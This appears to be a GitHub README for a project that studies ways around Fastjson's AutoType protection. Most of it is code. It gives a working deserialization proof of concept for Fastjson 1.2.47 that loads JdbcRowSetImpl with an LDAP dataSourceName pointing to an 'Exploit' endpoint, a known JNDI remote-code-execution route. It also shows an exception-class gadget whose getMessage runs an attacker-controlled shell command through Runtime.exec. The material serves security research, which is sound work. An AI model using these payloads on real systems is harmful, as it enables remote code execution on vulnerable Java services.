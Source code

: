 ## What's this

This project is used for studying how to bypass fastJSON AutoType check.

## Gadget Info

**Mapping**

just for fastjson 1.2.47:

```
package com.FastJson1242;

import com.alibaba.fastjson.JSONObject;

public class Poc {
    public static void main(String[] argv){
        String payload ="{\n" +
                "    \"a\": {\n" +
                "        \"@type\": \"java.lang.Class\", \n" +
                "        \"val\": \"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "    }, \n" +
                "    \"b\": {\n" +
                "        \"@type\": \"com.sun.rowset.JdbcRowSetImpl\", \n" +
                "        \"dataSourceName\": \"ldap://localhost:1099/Exploit\", \n" +
                "        \"autoCommit\": true\n" +
                "    }\n" +
                "}";
        JSONObject.parseObject(payload);
    }
}
```

**ThrowableDeserializer**

```
package org.heptagram.fastjson;

import java.io.IOException;

public class ViaThrowable extends Exception {
    private String domain;

    public ViaThrowable() {
        super();
    }

    public String getDomain() {
        return domain;
    }

    public void setDomain(String domain) {
        this.domain = domain;
    }

    @Override
    public String getMessage() {
        try {
            Runtime.getRuntime().exec("cmd /c ping "+domain);
        } catch (IOException e) {
            return e.getMessage();
        }
        return super.getMessage();
    }
}
```